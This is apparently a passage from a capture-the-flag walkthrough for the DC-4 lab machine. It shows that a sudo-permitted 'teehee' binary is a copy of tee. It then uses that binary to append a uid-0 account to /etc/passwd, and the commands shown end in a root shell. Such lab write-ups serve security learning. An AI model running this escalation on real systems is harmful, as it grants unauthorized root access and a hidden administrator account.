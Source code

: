 Dumping the strings of the executable will reveal that it has a help:

~~~
charles@dc-4:/var/spool/mail$ /usr/bin/teehee --help
Usage: /usr/bin/teehee [OPTION]... [FILE]...
Copy standard input to each FILE, and also to standard output.

  -a, --append              append to the given FILEs, do not overwrite
  -i, --ignore-interrupts   ignore interrupt signals
  -p                        diagnose errors writing to non pipes
      --output-error[=MODE]   set behavior on write error.  See MODE below
      --help     display this help and exit
      --version  output version information and exit

MODE determines behavior with write errors on the outputs:
  'warn'         diagnose errors writing to any output
  'warn-nopipe'  diagnose errors writing to any output not a pipe
  'exit'         exit on error writing to any output
  'exit-nopipe'  exit on error writing to any output not a pipe
The default MODE for the -p option is 'warn-nopipe'.
The default operation when --output-error is not specified, is to
exit immediately on error writing to a pipe, and diagnose errors
writing to non pipe outputs.

GNU coreutils online help: <http://www.gnu.org/software/coreutils/>
Full documentation at: <http://www.gnu.org/software/coreutils/tee>
or available locally via: info '(coreutils) tee invocation'
~~~

This `teehee` executable is actually a copy of the `tee` program:

~~~
jim@dc-4:~$ /usr/bin/md5sum /usr/bin/teehee
b2e9a2429515d5bcd77fa8f88f892f0f  /usr/bin/teehee
jim@dc-4:~$ /usr/bin/md5sum /usr/bin/tee
b2e9a2429515d5bcd77fa8f88f892f0f  /usr/bin/tee
~~~

## Create a privileged user

As we can run `tee` (or a copy of it) as `root`, we can add a privileged user to `/etc/passwd` as follows:

~~~
charles@dc-4:/var/spool/mail$ openssl passwd -1 -salt "myroot" "myrootpassword"
$1$myroot$c4NJl3zgApNDMQB5UN.ML1
charles@dc-4:/var/spool/mail$ printf 'myroot:$1$myroot$c4NJl3zgApNDMQB5UN.ML1:0:0:root:/root:/bin/bash\n' | sudo /usr/bin/teehee -a /etc/passwd
myroot:$1$myroot$c4NJl3zgApNDMQB5UN.ML1:0:0:root:/root:/bin/bash
~~~

Now, switch to the new user:

~~~
charles@dc-4:/var/spool/mail$ su myroot
Password: myrootpassword
root@dc-4:/var/spool/mail# id
uid=0(root) gid=0(root) groups=0(root)
root@dc-4:/var/spool/mail# 
~~~

